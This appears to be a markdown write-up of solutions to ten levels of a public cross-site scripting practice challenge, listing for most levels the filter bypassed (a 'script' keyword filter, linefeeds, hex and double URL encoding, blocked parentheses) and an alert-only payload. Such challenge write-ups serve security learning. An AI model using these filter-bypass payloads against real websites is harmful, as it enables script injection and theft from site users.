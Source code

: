 # XSS Challanges from https://www.zixem.altervista.org/XSS

## Level 1

```html
<svg/onload=alert()>
```
## Level 2

- WAF looking for "script"

```html
<object data="javascRipt:alert()">
```

## Level 3

- %0A (LF = linefeed)

```html
%0A<svg/onload=alert()>
```

## Level 4

- Inline html

```html
x' onerror=javascript:alert()//
```

## Level 5

- param reflected in form post field (action)

```html
XSS&action=javascript:alert(1337)
```

## Level 6

- Hex encodin \x

```hex
\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x29
```

## Level 7

- Double urlencodeing 

```html
%253Csvg%2520onload%253Dalert%2528%2529%253E
```

## Level 8

## Level 9
- Escape the html tag with ```</p>```

```
</p><svg/onload=alert()>
```

## Level 10

- Filters ```(```

```js
');alert`1`;//
');/**/onerror=alert`1`//
');window[`alert`]`xss`//;
```
